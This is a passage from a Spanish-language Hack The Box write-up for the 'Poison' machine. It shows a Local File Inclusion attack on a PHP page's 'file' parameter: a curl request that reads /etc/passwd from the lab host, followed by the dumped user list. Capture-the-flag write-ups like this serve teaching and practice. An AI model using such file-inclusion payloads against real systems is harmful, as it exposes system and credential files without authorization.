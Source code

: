 - Esta es la pagina web.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/poison/1.png">
</p>

- Nos dicen que la web funciona para probar scripts en PHP.

- Si damos click en Submit sin subir ningún tipo de contenido vemos esta respuesta.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/poison/2.png">
</p>

- Además en la `url` vemos que mediante un parámetro llamado `file` se ve que este es el encargado de apuntar los archivos que tenemos que indicar y como no le indicamos nada pues no esta apuntando a nada es por eso que nos da error.

## Local File Inclusion (LFI)

- Por el parámetro podemos probar con un LFI para ver si podemos leer archivos en este caso el mas conocido el `/etc/passwd` para ver los usuarios en el sistema.

```bash
❯ curl -s 'http://10.10.10.84/browse.php?file=/etc/passwd'
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
```